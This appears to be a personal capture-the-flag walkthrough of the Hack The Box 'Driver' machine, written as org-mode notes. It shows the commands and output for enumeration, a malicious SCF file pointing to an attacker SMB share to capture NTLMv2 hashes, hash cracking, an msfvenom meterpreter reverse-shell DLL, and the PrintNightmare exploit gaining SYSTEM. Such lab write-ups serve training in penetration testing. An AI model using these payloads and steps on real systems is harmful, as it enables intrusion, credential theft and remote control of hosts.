


==
tags: #windows #easy #scf #file-upload
=

* nmap
  #+begin_src bat
  sudo nmap -sV -sC -oA nmap/driver.basic 10.129.10.176

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
  #+end_src
** full scan
   #+begin_src bat
   sudo nmap  -p- -A -T4 -oA nmap/driver.full 10.129.10.176
   #+end_src
   discovers nothing new.
* smb
  #+begin_src bat
  nxc smb 10.129.10.176 -u 'guest' -p '' --shares

SMB    445    DRIVER   [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB    445    DRIVER   [-] DRIVER\guest: STATUS_ACCOUNT_DISABLED 
  #+end_src
  anonymous login also fails
** enum4linux-ng
    #+begin_src bat
   $ enum4linux-ng -P 10.129.10.176

    ============================================================
   |    Domain Information via SMB session for 10.129.10.176    |
    ============================================================
   [*] Enumerating via unauthenticated SMB session on 445/tcp
   [+] Found domain information via SMB
   NetBIOS computer name: DRIVER
   NetBIOS domain name: ''                                    
   DNS domain: DRIVER                                         
   FQDN: DRIVER                                               
   Derived membership: workgroup member
   Derived domain: unknown                                    
   
    ==========================================
   |    RPC Session Check on 10.129.10.176    |
    ==========================================
   [*] Check for anonymous access (null session)
   [-] Could not establish null session: STATUS_ACCESS_DENIED
   [*] Check for guest access                                 
   [-] Could not establish guest session: STATUS_LOGON_FAILURE 
   [-] Sessions failed, neither null nor user sessions were possible
    #+end_src
** check if any known share is accessible
   [[https://hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html][script]] from hacktricks:
   #+begin_src bash
   #/bin/bash

   ip='<TARGET-IP-HERE>'
   shares=('C$' 'D$' 'ADMIN$' 'IPC$' 'PRINT$' 'FAX$' 'SYSVOL' 'NETLOGON')
   
   for share in ${shares[*]}; do
       output=$(smbclient -U '%' -N \\\\$ip\\$share -c '')
   
       if [[ -z $output ]]; then
           echo "[+] creating a null session is possible for $share" # no output if command goes through, thus assuming that a session was created
       else
           echo $output # echo error message (e.g. NT_STATUS_ACCESS_DENIED or NT_STATUS_BAD_NETWORK_NAME)
       fi
   done
   #+end_src
   we get =access denied= for everything.
* port 80
  there's a basic auth prompt which nmap also reported (below):
  #+begin_src bat
  Basic realm=MFP Firmware Update Center. Please enter password for admin
  #+end_src
  so, with this, tried =admin:admin= and we are let in:
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-06-01_13-42.png @ 2026-06-01 13:42:37
  
** driver upload
   the =Firmware Updates= link leads us to this page where we can upload a file
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-06-01_13-41.png @ 2026-06-01 13:41:55
   

   the idea is the file is directly uploaded to a file share:
     #+begin_src 
     Select printer model and upload the respective firmware update to our file share. Our
     testing team will review the uploads manually and initiates the testing soon.
     #+end_src
   intercepting the request in burp, we can see the response is:
   #+begin_src bat
   fw_up.php?msg=SUCCESS
   #+end_src
* fuzz
** directory
   IMPORTANT: this is wrong - we should have supplied creds
   #+begin_src bat
   gobuster dir -u http://10.129.10.176/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
   #+end_src
   this is the right way:
   #+begin_src bat
   gobuster dir -u http://10.129.10.176/ -U admin -P admin -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
   #+end_src
** parameter
   #+begin_src bat
   ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://10.129.10.176/fw_up.php?FUZZ=SUCCESS -U admin -P admin -H "Authorization: Basic YWRtaW46YWRtaW4="
   #+end_src
** page
   #+begin_src bat
   gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -o gobuster.out -u http://10.129.10.176/
   #+end_src
* file inclusion
  #+begin_src bat
  ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.129.12.22/fw_up.php?msg=FUZZ' -H "Authorization: Basic YWRtaW46YWRtaW4=" -fs 5119
  #+end_src
* responder
  try changing the filename to the UNC path =\\10.10.16.17\share\test.txt= and set up responder;
  however, there are no incoming connections.
* vhost
  #+begin_src bat
  ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://10.129.12.22/ -H "Host: FUZZ" -H "Authorization: Basic YWRtaW46YWRtaW4="
  #+end_src
* upload illegal filenames
  from [[file:d:/code/htb/academy/modules/file-upload-attacks/other-upload-attacks.org::*Windows-specific Attacks][here]]; try the name =CON= which is illegal on windows to see whether we some error message
  will reveal the upload directory; however, we just get the =/fw_up.php?msg=ERR= response
* guided mode
  ok i'm stumped.
  #+begin_src 
  There are several kinds of files that are commonly dropped into a file share to target other users who may browse to the share. If the user browses to the share, their host will try to authenticate to the attacker. What is the file extension that can be uploaded here to trigger that connection?
  #+end_src
  lnk? or perhaps it's scf; from the =interacting-with-users= [[file:d:/code/htb/academy/modules/windows-privilege-escalation/interacting-with-users.org::*Malicious SCF File][section]]
  #+begin_src 
   [Shell]
   Command=2
   IconFile=\\10.10.16.17\share\legit.ico
   [Taskbar]
   Command=ToggleDesktop
  #+end_src
** responder
   the way they suggest to run responder no longer seems valid, so just do:
   #+begin_src bat
   sudo responder -I tun0 -v

[SMB] NTLMv2-SSP Client   : 10.129.13.89
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:f45e7c96ed0ae64c:A4DCA195FF97850E67897D12E40D7EF2:010100000000000000D71EBCE8F4DC01270B60BD1C80B5570000000002000800330053003700470001001E00570049004E002D0034004300540054004200430053003800420051005A0004003400570049004E002D0034004300540054004200430053003800420051005A002E0033005300370047002E004C004F00430041004C000300140033005300370047002E004C004F00430041004C000500140033005300370047002E004C004F00430041004C000700080000D71EBCE8F4DC010600040002000000080030003000000000000000000000000020000055DD0C177159A450B394D83CABBE03257DE75E1011125BA671C2BC7024F76E5C0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E0031003700000000000000000000000000
   #+end_src
** hashcat
   #+begin_src bat
   hashcat -m 5600 tony.hash /usr/share/wordlists/rockyou.txt

liltony
   #+end_src
* user flag
  #+begin_src bat
  $ evil-winrm -i 10.129.13.89 -u 'tony' -p 'liltony'

*Evil-WinRM* PS C:\Users\tony\desktop> type user.txt
a4afd8bf9070bad653348831aa83272b
  #+end_src
* PrintNightmare
  given the prominence of printer stuff on the box, this looks like the most likey root to
  privesc
** Enumerating for MS-RPRN
   #+begin_src bash
   $ impacket-rpcdump 10.129.13.89 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
   #+end_src
** dll payload
   #+begin_src 
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.17 LPORT=8080 -f dll > backupscript.dll
   #+end_src
** serve the dll on a share
   #+begin_src bat
   sudo impacket-smbserver -smb2support CompData ./http
   #+end_src
** meterpreter
   #+begin_src bat
   [msf](Jobs:0 Agents:0) >> use exploit/multi/handler

   [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp

   [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST tun0

   [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080

   [msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
   #+end_src
** run the exploit
   #+begin_src bash
   sudo python3 CVE-2021-1675.py DRIVER/tony:liltony@10.129.13.89 '\\10.10.16.17\CompData\backupscript.dll'
   #+end_src
   this exits seemingly after erroring out, but we get a shell:
** session as System
   #+begin_src 
   [*] Meterpreter session 1 opened (10.10.16.17:8080 -> 10.129.13.89:49434)
meterpreter > shell

Microsoft Windows [Version 10.0.10240]
    (c) 2015 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami

nt authority\system

    c:\Users\Administrator>type desktop\root.txt 

0fdf75b100857822130ee101c4beb894
   #+end_src
* ippsec
** evil-winrm SCRIPTS_PATH, EXES_PATH option
   using evil-winrm with these options allow us to execute powershell scripts and exes
   directly via the connection instead of having to upload them (although it didn't work with
   winpeas in the video)
   #+begin_src bash
   mkdir {scripts,exes} #make both directories

   evil-winrm -i 10.129.13.89 -u 'tony' -p 'liltony' -s scripts/ -e exes/
   #+end_src
** winpeas
   reveals the presence of a hidden file in =C:\ALl Users\RICOH_DRV=; it's a printer driver
   with a known vuln. also, there's a powershell history file which shows the user using an
   =Add-Printer= command with the =driver= above
** ricoh printer exploit
   searching for this reveals that the problem with this driver is that it adds a dll that is
   writeable by =Everyone=.
** use winrm through msfconsole
   =search winrm= returns =exploit/windows/winrm/winrm_script_exec=; however, this didn't work.
   and he pivots to using msfvenom instead.
** ricoh driver exploit msf
   use the =ricoh_driver_privesc= module. however, the exploit fails, so he retries with a
   32-bit msfvenom payload (also update the multi/handler payload to be 32-bit.) fails again.
   so migrates to an interactive process.
** printnightmare powershell
   uses the [[https://github.com/calebstewart/CVE-2021-1675][powershell version]] of the exploit. runs it via the evil-winrm session. it succeeds
   in adding a new admin user; uses psexec to login as that user. definitely easier than the
   extended procedure we did.
